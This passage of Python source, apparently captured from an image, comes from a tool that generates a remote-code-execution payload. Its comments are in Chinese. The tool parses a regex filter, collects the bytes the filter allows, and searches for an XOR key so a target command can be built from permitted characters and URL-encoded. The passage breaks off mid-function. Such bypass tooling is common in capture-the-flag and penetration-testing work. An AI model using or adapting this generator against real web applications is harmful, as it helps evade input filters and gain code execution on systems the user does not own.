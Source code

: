 ```python
    """
    if not expr.startswith('/'):
        raise ValueError("正则表达式必须以 '/' 开头")
    parts = expr.rsplit('/', 2)
    if len(parts) < 3:
        raise ValueError("正则表达式格式应为 /pattern/flags")
    _, pattern, flag_str = parts
    flags = 0
    if 'i' in flag_str:
        flags |= re.IGNORECASE
    return re.compile(pattern, flags)


def build_charset(mode: str, regex):
    """
    构建可用字符集。
    mode: 'blacklist' 或 'whitelist'。
    将 ASCII 范围 0-255 中的字符，依据黑/白名单规则过滤。
    且移除高风险控制字符，防止解析错误。
    返回可用字节列表。
    """
    available = []
    for b in range(256):
        ch = chr(b)
        match = bool(regex.search(ch))
        if mode == 'blacklist':
            if not match:
                available.append(b)
        else:
            if match:
                available.append(b)
    # 移除高风险符号
    available = [b for b in available if b not in BAD_BYTES]
    if not available:
        raise ValueError("应用正则和模式后，没有可用字符")
    return available


def find_key_byte(available, target_bytes):
    """
    在可用字节中寻找一个密钥字节 k，
    使得对目标每个字节 t，(t ^ k) 都在可用列表中。
    找到则返回 k，否则返回 None。
    """
    for k in available:
        if all((t ^ k) in available for t in target_bytes):
            return k
    return None


def generate_payload(mode, regex_expr, target):
    """
    生成最终的 RCE payload。
    步骤：解析正则 -> 构建字符集 -> 找密钥 -> 构造前后半部分 -> URL 编码。
    返回 URL 编码后的字符串。
    """
    regex = parse_regex(regex_expr)
    available = build_charset(mode, regex)
    target_bytes = target.encode('latin1')
    key = find_key_byte(available, target_bytes)
    if key is None:
        raise ValueError("无法在可用字符集中找到合适的 XOR 密钥")
    left = bytes([key] * len(target_bytes))
```